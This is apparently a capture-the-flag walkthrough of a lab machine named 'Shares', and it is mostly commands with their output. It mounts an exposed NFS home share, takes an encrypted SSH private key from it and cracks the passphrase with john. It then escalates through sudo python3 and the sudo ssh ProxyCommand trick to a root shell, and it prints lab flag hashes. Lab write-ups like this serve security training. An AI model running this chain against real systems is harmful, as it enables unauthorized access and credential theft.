 **nmap 'ip'**
```bash
sudo nmap -O -sV -v -A -p- 172.31.1.7
-O enables OS detection
-sV enable version detection
-v run in verbose mode displaying more detailed output
-A enables OS detection, version detection, script scanning and treaceroute
```

**scan revealed ports**
21/tcp ftp
80/tcp http
111/tcp rcpbind
2049/tcp nfs_acl
27853/tcp ssh
35737/tcp nlockmgr
46997/tcp mountd
51697/tcp mountd
60461/tcp mountd

**nfs foothold**
```bash
showmount -e 172.31.1.7
command shows the exported file systems of a remote NFS/network file system
-e displays the list of exported file systems from the remote NFS server
```
**showmount reveals**
/home/amir
```bash
~/cyberseclabs
mkdir shares
mkdir mnt
~/cyberseclabs/shares/mnt
sudo mount -t nfs 172.31.1.7:/home/amir mnt
cd mnt
┌──(kali㉿kali)-[~/cyberseclabs/shares/mnt]
└─$ ls -la  
total 40
drwxrwxr-x 5 kali kali 4096 Apr  2  2020 .
drwxr-xr-x 3 kali kali 4096 Jan 22 03:58 ..
-rw-r--r-- 1 kali kali    0 Apr  2  2020 .bash_history
-rw-r--r-- 1 kali kali  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 kali kali 3786 Apr  2  2020 .bashrc
drw-r--r-- 2 kali kali 4096 Apr  2  2020 .cache
drw-r--r-- 3 kali kali 4096 Apr  2  2020 .gnupg
-rw-r--r-- 1 kali kali  807 Apr  4  2018 .profile
drwxrwxr-x 2 kali kali 4096 Apr  2  2020 .ssh
-rw-r--r-- 1 kali kali    0 Apr  2  2020 .sudo_as_admin_successful
-rw-r--r-- 1 kali kali 7713 Apr  2  2020 .viminfo
```
**.ssh is available in the mounted location**
```bash
┌──(kali㉿kali)-[~/cyberseclabs/shares/mnt/.ssh]
└─$ ls -la  
total 24
drwxrwxr-x 2 kali kali 4096 Apr  2  2020 .
drwxrwxr-x 5 kali kali 4096 Apr  2  2020 ..
-r-------- 1 kali kali  393 Apr  2  2020 authorized_keys
-r-------- 1 kali kali 1766 Apr  2  2020 id_rsa
-rw-r--r-- 1 kali kali 1766 Apr  2  2020 id_rsa.bak
-r-------- 1 kali kali  393 Apr  2  2020 id_rsa.pub
```
authkeys and id_rsa's in folder
```bash
┌──(kali㉿kali)-[~/cyberseclabs/shares/mnt/.ssh]
└─$ cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC4nXVRpkSwugksnMc35UGjepRM1S0dsbZGvHBMr/SHKXX8xO6pwdrTHwCLQfycnJtKLw3Hg5tQ4Tb+R4GP/op/BfpnAFS5+l95iXJ1IK/auFNgFa4yAw6RwbibQEGguvMK74/ih1q8n8cWcN2Nd8n5sZt4N7/7MkyhJh5JRs6LPU83XLrgbGNNJbrAUwJOcCxxm6wmujSnlxy8t86YHgRtE2KQof1qmZNK9p/rjhcXQ8bAC++dQQ4Sck9JzV9rWc/Ao2UBN1tT5+Qrd9CJ7PFc9a1v9aevkiGJ0vkpRIq/nWsvrQa+dFtfmLWxx6zSP6AUUpmp+3pWKJnux3SwoIiT amir@shares
```
catting id_rsa reveals amir@shares
```bash
┌──(kali㉿kali)-[~/cyberseclabs/shares/mnt/.ssh]
└─$ cat id_rsa.bak 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,8D55B7449F8965162DA3B7F2F017FC21

2lI1tgSF61MjFg2Er22GWr9hImJbuZ01I556yFoLAGNj/95ZB2H8Er9u8wfMgr8z
uB8Yuw2GmO0jJguQ4CK36kDLT/hpG5AW5WfHASzePHx58Ol2hrH+2e5IAoIwcVmi
```
cp id_rsa.bak to host machine
specifically id_rsa.bak contains a rsa private key but it is encrypted and will need to use **john** to crack
```bash
┌──(kali㉿kali)-[~/cyberseclabs/shares]
└─$ ssh2john id_rsa.bak > hash.txt
┌──(kali㉿kali)-[~/cyberseclabs/shares]
└─$ cat hash.txt            
id_rsa.bak:$sshng$1$16$8D55B7449F8965162DA3B7F2F017FC21$1200$da5235b60485eb5323160d84af6d865abf6122625bb99d35239e7ac85a0b006363ffde590761fc12bf6ef307cc82bf33b81f18bb0d8698ed23260b90e022b7ea40cb4ff8691b9016e567c7012cde3c7c79f0
```
Then use 'john' to crack the hash - hello6
```bash
┌──(kali㉿kali)-[~/cyberseclabs/shares]
└─$ john --wordlist=/opt/rockyou.txt hash.txt                           
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hello6           (id_rsa.bak)     
1g 0:00:00:00 DONE (2023-01-28 06:31) 50.00g/s 1579Kp/s 1579Kc/s 1579KC/s ilovemarc..edward12
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Use the id-rsa.bak with the password (hello6) to login to amir
```bash
┌──(kali㉿kali)-[~/cyberseclabs/shares]
└─$ sudo ssh -i id_rsa.bak amir@172.31.1.7 -p 27853
The authenticity of host '[172.31.1.7]:27853 ([172.31.1.7]:27853)' can't be established.
ED25519 key fingerprint is SHA256:3v9jK3dqqfgI4jVyzYeJE+RsvhAjB3EEnGRZMDmgMP4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[172.31.1.7]:27853' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa.bak': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-91-generic x86_64)
```
use sudo -l to view the commands that amir can run as other users
```bash
amir@shares:~$ sudo -l
Matching Defaults entries for amir on shares:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amir may run the following commands on shares:
    (ALL : ALL) ALL
    (amy) NOPASSWD: /usr/bin/pkexec
    (amy) NOPASSWD: /usr/bin/python3
```
searching gtfobins we  find a binary for sudo using python
sudo as user(-u) amy using /usr/bin/python3 then importing bash shell
```bash
amir@shares:/etc/cron.hourly$ sudo -u amy /usr/bin/python3 -c 'import os;os.system("/bin/bash")'
```
amy's home directory has a access.txt file with hash
```bash
amy@shares:/home/amy$ cat access.txt 
dc17a108efc49710e2fd5450c492231c
```
sudo -l reveals the ability to run sudo without a password from /usr/bin/ssh
```bash
amy@shares:/home/amy$ sudo -l
Matching Defaults entries for amy on shares:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amy may run the following commands on shares:
    (ALL) NOPASSWD: /usr/bin/ssh
```
gtfobins for ssh reveals
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
- Spawn interactive root shell through ProxyCommand option.
```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

this gains root access and there is a file in /root with hash
```bash
# cd root
# pwd
/root
# ls -aslp
total 28
4 drwx------  3 root root 4096 Apr  2  2020 ./
4 drwxr-xr-x 24 root root 4096 Apr  2  2020 ../
4 -rw-------  1 root root   78 Apr  2  2020 .bash_history
4 -rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
4 -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4 drwx------  2 root root 4096 Apr  2  2020 .ssh/
4 -rw-r--r--  1 root root   33 Apr  2  2020 system.txt
# cat sys
cat: sys: No such file or directory
# cat system.txt
b910aca7fe5e6fcb5b0d1554f66c1506
# exit
ssh_exchange_identification: Connection closed by remote host
amy@shares:/usr/bin$ exit
exit
amir@shares:/etc/cron.hourly$ exit
logout
Connection to 172.31.1.7 closed.

┌──(kali㉿kali)-[~/cyberseclabs/shares]
└─$ 
```










